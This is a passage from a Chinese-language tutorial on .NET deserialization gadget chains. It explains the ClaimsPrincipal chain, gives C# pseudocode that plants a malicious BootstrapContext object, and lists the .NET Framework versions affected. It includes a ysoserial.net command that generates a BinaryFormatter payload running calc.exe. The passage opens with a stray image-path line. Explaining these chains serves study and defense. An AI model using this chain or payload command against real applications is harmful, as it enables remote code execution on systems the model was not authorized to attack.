 2. **序列化与传递**
     - 使用 `BinaryFormatter` 或 `NetDataContractSerializer`，将对象树序列化为二进制数据。
     - 数据被传递到目标应用。

3. **反序列化触发链条**
     - 目标应用反序列化时，`ClaimsPrincipal` 的 `Identity` 属性被自动还原和访问。
     - 某些属性的 getter/setter 可能导致命令执行或敏感信息泄露。

---

### 11.4 伪代码示例

```csharp
// 构造 ClaimsIdentity，设置 BootstrapContext 为恶意对象
var claimIdentity = new ClaimsIdentity();
claimIdentity.BootstrapContext = new MaliciousObject(); // 恶意对象

// 构造 ClaimsPrincipal，持有 claimIdentity
var principal = new ClaimsPrincipal(claimIdentity);

// 序列化 principal
var formatter = new BinaryFormatter();
formatter.Serialize(stream, principal);

// 反序列化时触发链条
formatter.Deserialize(stream);
```

---

### 11.5 触发点与关键代码

- **ClaimsPrincipal.Identity**  
    反序列化时自动访问，递归还原身份对象，攻击者可控。
- **ClaimsIdentity.BootstrapContext/Actor**  
    反序列化时自动访问，可能触发危险操作。

---

### 11.6 影响范围

- 影响所有使用 `BinaryFormatter`、`NetDataContractSerializer` 反序列化且未做类型限制的 .NET Framework 应用。
- 主要影响 .NET Framework 4.x，.NET Core/5/6 默认不包含全部功能。

### 11.7 参考利用链（ysoserial.net）

```bash
ysoserial.exe -g ClaimPrincipal -f BinaryFormatter -o base64 -c "calc.exe"
```

---


## 12 TypeConfuseDelegate链
### 12.1 什么是 TypeConfuseDelegate 链?

